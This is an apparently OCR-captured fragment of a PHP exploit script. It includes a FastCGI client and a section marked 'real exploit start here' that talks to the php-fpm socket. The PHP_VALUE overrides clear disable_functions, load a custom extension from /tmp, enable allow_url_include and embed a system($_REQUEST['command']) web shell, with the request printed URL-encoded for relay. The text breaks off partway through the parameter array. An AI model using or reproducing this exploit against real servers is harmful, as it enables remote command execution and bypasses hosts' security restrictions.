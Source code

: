 ```bash
        }
        if ($paramsRequest) {
            $request .= $this->buildPacket(self::PARAMS, $paramsRequest);
        }
        $request .= $this->buildPacket(self::PARAMS, '');
        if ($stdin) {
            $request .= $this->buildPacket(self::STDIN, $stdin);
        }
        $request .= $this->buildPacket(self::STDIN, '');
        echo('data='.urlencode($request));
//        fwrite($this->_sock, $request);
//        do {
//            $resp = $this->readPacket();
//            if ($resp['type'] == self::STDOUT || $resp['type'] == self::STDERR) {
//                $response .= $resp['content'];
//            }
//        } while ($resp && $resp['type'] != self::END_REQUEST);
//        var_dump($resp);
//        if (!is_array($resp)) {
//            throw new Exception('Bad request');
//        }
//        switch (ord($resp['content']{4})) {
//            case self::CANT_MPX_CONN:
//                throw new Exception('This app can\'t multiplex [CANT_MPX_CONN]');
//                break;
//            case self::OVERLOADED:
//                throw new Exception('New request rejected; too busy [OVERLOADED]');
//                break;
//            case self::UNKNOWN_ROLE:
//                throw new Exception('Role value not known [UNKNOWN_ROLE]');
//                break;
//            case self::REQUEST_COMPLETE:
//                return $response;
//        }
    }
}
?>
<?php
// real exploit start here
//if (!isset($_REQUEST['cmd'])) {
//    die("Check your input\n");
//}
//if (!isset($_REQUEST['filepath'])) {
//    $filepath = __FILE__;
//}else{
//    $filepath = $_REQUEST['filepath'];
//}

$filepath = "/var/www/html/add_api.php";    // 目标主机已知的 PHP 文件的路径
$req = '/'.basename($filepath);
$uri = $req .'?'.'command=whoami';    // 啥也不是，不用管
$client = new FCGIClient("unix:///var/run/php-fpm.sock", -1);
$code = "<?php system(\$_REQUEST['command']); phpinfo(); ?>";    // 啥也不是，不用管
$php_value = "unserialize_callback_func = system\nextension_dir = /tmp\nextension = hpdoger.so\ndisable_classes = \ndisable_functions = \nallow_url_include = On\nopen_basedir = /\nauto_prepend_file = ";
$params = array(
    'GATEWAY_INTERFACE' => 'FastCGI/1.0',
    'REQUEST_METHOD'    => 'POST',
    'SCRIPT_FILENAME'   => $filepath,
    'SCRIPT_NAME'       => $req,
    'QUERY_STRING'      => 'command=whoami',
    'REQUEST_URI'       => $uri,
```